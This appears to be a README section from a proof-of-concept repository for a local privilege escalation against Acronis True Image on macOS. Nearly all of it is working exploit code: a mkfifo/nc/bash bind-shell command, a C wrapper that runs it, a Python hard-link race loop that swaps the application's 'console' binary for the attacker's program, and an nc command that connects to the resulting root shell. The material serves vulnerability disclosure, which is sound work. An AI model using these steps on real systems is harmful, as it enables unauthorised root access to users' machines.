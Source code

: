 ### Running The PoC 
First we make the shell command to run 
```bash
echo "mkfifo myfifo;nc -l 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1" > shell 
```
Now lets make the c program that will run this shell command naming it test.c
```c
#include <stdlib.h>
int main() {
	system("touch pass;bash shell");
	return 0;
}
```
Compile the program
```bash
gcc test.c 
```
Run the following python program. The program will run for a number of iterations before it works.
```python
import os 
import time 

os.link("/Applications/Acronis True Image.app/Contents/MacOS/Acronis True Image", "./run")
os.link("/Applications/Acronis True Image.app/Contents/MacOS/console", "./console")

delay = 0.01 
while True: 
	os.popen("./run")
	time.sleep(delay)
	os.unlink("./console")
	os.link("./a.out", "./console")
	time.sleep(1.0)
	os.unlink("./console")
	os.link("Applications/Acronis True Image.app/Contents/MacOS/console", "./console")
	delay += 0.01 
	if os.path.exists("./pass"):
		os.unlink("./console")
		os.unlink("./run")
		os.unlink("./pass")
		exit()
```
Connect to the root shell
```bash
nc 127.0.0.1 8080
```

##### Video of the exploit running 

![image](/26_february_2023_demo_opt.gif)
